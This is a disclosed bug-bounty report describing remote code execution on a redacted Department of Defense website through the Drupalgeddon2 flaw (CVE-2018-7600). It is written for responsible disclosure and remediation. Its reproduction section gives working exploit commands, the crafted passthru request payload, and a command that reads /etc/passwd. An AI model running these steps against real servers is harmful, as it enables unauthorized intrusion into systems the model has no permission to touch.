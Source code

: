 # [CVE-2018-7600] Remote Code Execution due to outdated Drupal server on www.█████████

## Report Details
- **Report ID**: 1063256
- **URL**: https://hackerone.com/reports/1063256
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-12-21T07:51:14.165Z
- **Disclosed**: 2021-03-24T20:24:17.881Z

## Reporter
- **Username**: phibz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## Summary 
Due to an outdated Drupal version, remote code execution is possible on `www.█████` via CVE-2018-7600. 

## Description
Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or common module configurations. 

Vulnerable Host:
 * `www.███`

Visiting `https://www.███/███` we can see that we have a Drupal with version 7.54, which was updated the last time in 2017-02-01.

There are several critical and highly critical vulnerabilities known for this version (see `https://api.drupal.org/api/drupal/████████/7.x` and `https://www.drupal.org/security`). Among them is `SA-CORE-2018-002` (CVE-2018-7600), which I will demonstrate here. 

Note: I am reporting this here, since the page `https://www.███████` seems to belong to the █████████, which belongs to the DOD. The footer further states: `██████. [...]`

## Step-by-step Reproduction Instructions

1. Download the git repository with the exploit: `git clone https://github.com/dreadlocked/Drupalgeddon2.git && cd Drupalgeddon2`
    * Install dependencies if necessary `gem install nokogiri`

2. Run the exploit with ruby `ruby drupalgeddon2-customizable-beta.rb -u https://www.████████/ -v 7 -c id --form user/login`

Parameters explanation: 
```
-u,     --url URL           Service URL
-v,     --version VERSION   Target Drupal version {7,8}
-c,     --command COMMAND   Command to execute
--form  Form to attack, by default '/user/password' in Drupal 7 
```
The above command outputs:
```
root@5b08dc005375:/Drupalgeddon2# ruby drupalgeddon2-customizable-beta.rb -u https://www.████/ -v 7 -c id --form user/login
drupalgeddon2-customizable-beta.rb:184: warning: URI.escape is obsolete
[i] Requesting: www.███████//user/password/?name[%23post_render][]=passthru&name[%23markup]=id&name[%23type]=markup
[i] POST: form_id=user_pass&_triggering_element_name=name
[i] 200
[*] Obtained build id!: ████████
drupalgeddon2-customizable-beta.rb:220: warning: URI.escape is obsolete
drupalgeddon2-customizable-beta.rb:221: warning: URI.escape is obsolete
[i] Requesting: www.█████/file/ajax/name/%23value/██████
[i] POST: form_build_id=█████
[i] Response code: 200
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
root@5b08dc005375:/Drupalgeddon2# 
```
As we can see, we successfully executed the `id` command, which responded with `uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0`

I am also providing the output of `/etc/passwd` which I obtained with command 
```
ruby drupalgeddon2-customizable-beta.rb -u https://www.██████/ -v 7 -c "cat /etc/passwd" --form user/login
```
Output: 
```
████
██████
███████
████████
█████████
█████████
██████████
███
████
█████████
██████████
████
██████████
████████ █████
█████████
██████████
████████
██████████
██████
████
█████████
███████
███████
████
██████████
███
█████
█████
██████
```

## Resources
 * https://api.drupal.org/api/drupal/█████/7.x
 * https://www.drupal.org/security
 * https://github.com/dreadlocked/Drupalgeddon2
 * https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7600
 * https://www.drupal.org/sa-core-2018-002

## Mitigation/Remediation Actions
Upgrade to the most recent version of Drupal 7 core.

## Impact

Critical - Remote Code Execution

## Attachments
No attachments

